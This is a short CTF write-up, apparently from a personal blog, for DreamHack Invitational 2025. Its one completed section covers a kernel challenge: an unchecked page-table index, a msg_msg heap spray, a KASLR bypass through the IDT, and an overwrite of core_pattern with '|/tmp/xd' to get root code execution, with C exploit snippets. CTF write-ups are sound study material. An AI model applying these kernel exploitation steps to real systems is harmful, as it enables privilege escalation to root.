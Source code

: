 +++
title = "Writeup of DreamHack Invitational 2025"
date = 2025-04-09
description = "Brief writeup of DreamHack Invitational 2025"
[taxonomies]
tags = ["pwn", "kernel", "Buffer Overflow", "ROP"]
+++

# xoronly

WIP

# kidheap

WIP

# ainque

## vulnerability

`pml4e_index` has no validation. It can exceed 0x200, which cause OOB access. \
`msg_msg` has `list_head` member, which has a valid pointer, they can be used as `pml4e` or `pdpe`.

```c
static QCPU_EXIT_TYPE write_memory(qvm_t *qvm, uint64_t va, uint64_t size, uint64_t value, bool is_signed) {
    for(int i=0; i<size; i++) {
        qcpu_pte_or_fail pte_safe = qcpu_get_pte_from_va_failsafe(qvm->qcpu.cr3, va+i);
        if(pte_safe.success) {
            ((uint8_t *)PTE_TO_PHYS(pte_safe.pte))[(va+i) & 0xfff] = (uint8_t)((value >> (i*8)) & 0xff);
        } else {
            return QCPU_SIGSEGV;
        }
    }
    return QCPU_CONTINUE;
}
```

```c
qcpu_pte_or_fail qcpu_get_pte_from_va_failsafe(qcpu_pte_t ****cr3, uint64_t va) {
    qcpu_pte_t ***pml4e = qcpu_get_pml4e(cr3, va >> 39);
// the following omitted

qcpu_pte_t ***qcpu_get_pml4e(qcpu_pte_t ****cr3, uint64_t pml4e_index)
{
    return cr3[pml4e_index];
}
```

## exploit

### kaslr bypass

We can leak kbase by reading IDT region, which is located at fixed virtual address.

```c
  unsigned long gate = *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 6, 0) >> 52;
  unsigned long kbase_diff = gate - 0x820;
```

To load crafted value as `pml4e`, spray a bunch of `msg_msg` struct after `QVM_LOAD`. It contains the all possible pointer to `&core_pattern` considering KASLR.

```c
  rep(i, 0x1f8) {
    ((unsigned long *)msg_buf.mtext)[i + 1] =
    0xfffffffflu * 0x100000
    | (i + 0x82blu) * 0x100lu  // KASLR bypass
    | 0x7b
    | (0x8000000000000000l);
  }
```

{{ image(path="static/pagetable.png", caption="IDT address and all possible kbase address") }}

### core_pattern overwrite

By writing `|/tmp/xd` into `core_pattern` and causing crash, the kernel executes `/tmp/xd` as root.

```c
  *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 7 + kbase_diff & 0xfff, 0xc20) =
      0x64782f706d742f7c; // |/tmp/xd
```
